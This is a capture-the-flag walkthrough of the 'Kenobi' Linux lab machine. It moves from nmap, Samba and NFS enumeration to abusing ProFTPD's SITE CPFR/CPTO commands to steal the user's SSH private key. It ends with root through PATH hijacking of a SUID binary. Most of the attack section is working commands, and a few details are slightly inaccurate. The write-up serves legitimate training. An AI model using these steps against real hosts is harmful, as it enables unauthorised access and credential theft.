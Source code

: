 # Kenobi

Walkthrough on exploiting a Linux machine. Enumerate Samba for shares, manipulate a vulnerable version of proftpd and escalate your privileges with path variable manipulation. 

Set up environment IP as IP_Machine

```
export IP=10.10.184.151
```

![IP](./images/IP.png)

## Task 1 - Deploy the vulnerable machine

* Scan the machine with nmap, how many ports are open?
	
	```
	nmap -sV $IP | tee nmap-scan.txt
	```

	File scan resulted [here](./file/nmap-scan.txt)

	![task1-nmap](./images/task1-nmap.png)

## Task 2 - Enumerating Samba for shares

* Using the nmap command below, how many shares have been found?
	
	```
	nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP
	```  

	![task2-samba](./images/task2-samba.png)

* Once you're connected, list the files on the share. What is the file can you see?
	
	```
	smbclient //$IP/anonymous
	```

	![task2-smbclient](./images/task2-smbclient.png)

	Get the file [here](./files/log.txt)

	![task2-smbget](./images/task2-smbget.png)

* In our case, port 111 is access to a network file system. Lets use nmap to enumerate this. What mount can we see?
	
	```
	sudo nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP
	```  

	![task2-nfs](./images/task2-nfs.png)

## Task 3 - Gain initial access with ProFtpd

Lets get the version of ProFtpd. Use netcat to connect to the machine on the FTP port.

* What is the version?  
	
	```
	nc 10.10.65.169 21
	```

	![task3-version](./images/task3-version.png)

* How many exploits are there for the ProFTPd running?
	
	```
	searchsploit ProFtpd 1.3.5
	```

	![task3-sploit](./images/task3-sploit.png)


* We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.

	```
	SITE CPFR /home/kenobi/.ssh/id_rsa  
	SITE CPTO /var/tmp/id_rsa
	```  
	
	![task3-copy](./images/task3-copy.png)

* What is Kenobi's user flag (/home/kenobi/user.txt)?

	* Lets mount the /var/tmp directory to our machine
	
		```
		mkdir /tmp/KenobiNFS
		sudo mount $IP:/var /tmp/KenobiNFS
		ls -la /tmp/KenobiNFS
		```
		
		![task3-kenobiNFS](./images/task3-kenobiNFS.png)

	*  We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.
	
		```
		cp /tmp/KenobiNFS/tmp/id_rsa .
		sudo chmod 600 id_rsa
		ssh -i id_rsa kenobi@$IP
		```
		
		Get the file [here](./files/id_rsa)

		![task3-id_rsa](./images/task3-id_rsa.png)

	* What is Kenobi's user flag (/home/kenobi/user.txt)?
		
		```
		cat /home/kenobi/user.txt
		```

		![task3-usertext](./images/task3-usertext.png)

## Task 4 - Privilege Escalation with Path Variable Manipulation

* What file looks particularly out of the ordinary?
	
	```
	find / -type f -perm -4000 -ls 2>/dev/null
	```

	![task4-SUID](./images/task4-SUID.png)

* Run the binary, how many options appear?
	
	```
	/usr/bin/menu
	```

	![task4-binary](./images/task4-binary.png)

* Strings is a command on Linux that looks for human readable strings on a binary. 
	
	```
	strings /usr/bin/menu
	```

	![task4-strings](./images/task4-strings.png)

* As this file runs as the root users privileges, we can manipulate our path gain a root shell.

	```
	echo /bin/sh > curl
	chmod 777 curl
	export PATH=/tmp:$PATH
	/usr/bin/menu
	```

	![task4-privilege](./images/task4-privilege.png)

We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

* What is the root flag (/root/root.txt)?
	
	![task4-rootTXT](./images/task4-rootTXT.png)
